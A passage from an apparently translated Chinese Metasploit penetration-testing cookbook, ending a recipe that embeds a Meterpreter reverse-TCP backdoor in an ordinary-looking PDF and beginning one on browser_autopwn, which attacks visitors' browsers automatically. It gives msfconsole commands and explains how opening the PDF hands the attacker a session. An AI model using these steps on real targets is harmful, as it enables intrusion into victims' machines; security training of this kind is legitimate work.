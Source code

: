 7.  设置 INFILENAME 选项。它是你打算使用的 PDF 文件的位置。这里，我使用桌面上的简历。

    ```
    set INFILENAME /root/Desktop/willie.pdf
    ```
    
    > 要注意，这个模块的所有选项都是可选的，除了`INFILENAME `。
    
8.  执行漏洞利用：

    ```
    Exploit
    ```
    
    ![](img/6-9-3.jpg)
    
### 工作原理

这个秘籍中，我们使用 Metasploit 的 MSFCONSOLE 创建了包含 Meterpreter 后门的 PDF 文件。我们以启动控制台并搜索所有可用的 PDF 漏洞来开始。在选择 PDF 内嵌模块之后，我们设置选项并执行漏洞利用，这让我们在正常的 PDF 中埋下后门程序。Metasploit 会生成带有 Windows 反向 TCP 载荷的 PDF。当你的目标打开 PDF 文件时，Meterpreter 会开启答复并激活会话。

## 6.10 实现 browser_autopwn

浏览器 Autopwn 是 Metasploit 提供的辅助模块，在受害者访问网页时，让你能够自动化对它们的攻击。浏览器 Autopwn 在攻击之前指定客户端的指纹识别，也就是说他不会对 IE 7 尝试利用 Firefox 的漏洞。基于它的浏览器判断，它决定最适于实施哪个漏洞利用。

### 准备

需要互联网或内部网络的连接。

### 操作步骤

让我们通过打开终端窗口来开始这个秘籍：

1.  打开终端窗口。

2.  启动 MSFCONSOLE：

    ```
    msfconsole 
    ```
    
3.  搜索可用的 `autopwn` 模块。

    ```
    msfconsole autopwn
    ```
    